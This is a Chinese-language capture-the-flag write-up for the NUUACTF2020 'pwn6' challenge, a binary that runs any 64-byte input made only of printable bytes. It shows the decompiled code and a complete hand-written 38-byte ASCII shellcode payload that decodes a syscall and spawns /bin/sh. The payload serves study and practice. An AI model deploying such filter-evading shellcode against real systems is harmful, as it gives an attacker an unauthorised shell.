 ## pwn6 

### 题目描述：

- > nc 49.235.243.206 10506
- 题目附件：[pwn6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/NUUACTF2020/pwn/pwn6/pwn6)
- 考察点：手写 ascii shellcode
- 难度：中等

### 程序分析
`call rdx` ida识别不出来，所以直接用cutter看啦

```c
undefined8 main(void){
    int64_t iVar1;
    undefined8 uVar2;
    int64_t in_FS_OFFSET;
    undefined8 var_5ch;
    void *buf;
    int64_t canary;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    setvbuf(_reloc.stdin, 0, 2, 0);
    setvbuf(_reloc.stdout, 0, 2, 0);
    setvbuf(_reloc.stderr, 0, 2, 0);
    var_5ch._0_4_ = read(0, &buf, 0x40);
    while (var_5ch._0_4_ = (int32_t)var_5ch + -1, -1 < (int32_t)var_5ch) {
        if (*(char *)((int64_t)&buf + (int64_t)(int32_t)var_5ch) < ' ') {
            puts("I GOT YOU");
            exit(0);
        }
    }
    (*(code *)&buf)();
    uVar2 = 0;
    if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar2 = __stack_chk_fail();
    }
    return uVar2;
}
```

`shellcode`的长度被限制为最多`0x40`字节，所以就要和自动ascii shellcode生成工具`alpha3`说拜拜啦

可输入的字符范围是`0x1f`-`0x7f`

> 代码中是通过`char < 0x1f` 进行判断的，超过`0x7f`就是负数，所以也不能用

### 解题思路
那就只能手动写ascii shellcode了呗~ 之前在DwagCTF遇到过一题，[DawgCTF2020-trASCII](http://taqini.space/2020/04/13/DawgCTF-2020-Pwn-trASCII-Writeup/)，也是手写，但是长度限制没这题严格。

ascii shellcode有两个难点，一是构造`/bin/sh`字符串，二是构造`syscall`指令(`0x050f`)

二者都可以通过异或操作实现，难点在于如何布局。这道题的存储shellcode的`buf`在栈中，所以可以直接把`/bin/sh`写到栈中，然后通过一串的`pop`，把`/bin/sh`传给`rdi`。`syscall`则可以通过先异或编码，然后在shellcode执行时解码还原出`syscall`。

最后是写了一个38字节的shellcode，还算精简叭。

```python
payload = asm('''
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    pop rcx
    push rsp
    pop rdi

    push 0x58585d57
    pop rax
    xor [rdx+38],rax

    push 0x58
    pop rax
    xor [rdx+63],rax
    xor al, 0x58
    push rax
    push rax
    pop rdx
    pop rsi
    push 0x3b
    pop rax

''').ljust(64-8,'X')

payload += '/bin/shX'
```

对了，这题还有一个坑点，就是输入的64个字节必须都在`0x1f`-`0x7f`这个范围内，即使是字符串末尾的`\x00`，也是不可以出现的，所以payload的长度要正好等于64字节。这样一来写在栈里的`/bin/sh`的末尾就没有`\x00`了，我解决的方法是写`/bin/shX`，然后末尾和`X`异或一下，还原出`/bin/sh\0`.

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/NUUACTF2020/pwn/pwn6) 

